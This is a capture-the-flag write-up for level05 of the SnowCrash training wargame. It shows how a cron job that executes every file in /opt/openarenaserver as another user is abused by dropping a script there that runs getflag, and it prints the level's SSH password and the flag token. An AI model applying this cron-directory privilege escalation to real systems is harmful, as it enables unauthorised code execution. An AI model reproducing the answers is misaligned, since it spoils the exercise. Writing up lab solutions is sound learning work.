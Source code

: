 
as usual: su level05
Reconnaissance, Enumeration, nothing interesting encountered

ssh level05@10.12.100.98 -p 4242
level05's password: ne2searoevaevoem4ov4ar8ap
You have new mail.

quick google search: "linux mail path" gives the path of mails dir 

cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

its a crontab apparantley
that runs At every 2nd minute, [check](https://crontab.guru/#*/2_*_*_*_*)

heading back to the path
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

ulimit is a built-in Linux shell command that allows viewing or limiting system resource amounts that individual users consume. Limiting resource usage is valuable in environments with multiple users and system performance issues.

-t flag: Specifies a process's maximum running time, in seconds.

bash -x: The -x option starts a BASH shell in tracing mode.
	run the entire script in debug mode. Traces of each command

googling: `for every file in directory bash` will output similar results

**so the script loops over a directory, executes it then removes it.**

we can exploit that

 
 vim /opt/openarenaserver/exec_this
  getflag > /tmp/flag
 
 watch cat /tmp/flag


token : viuaaale9huek52boumoomioc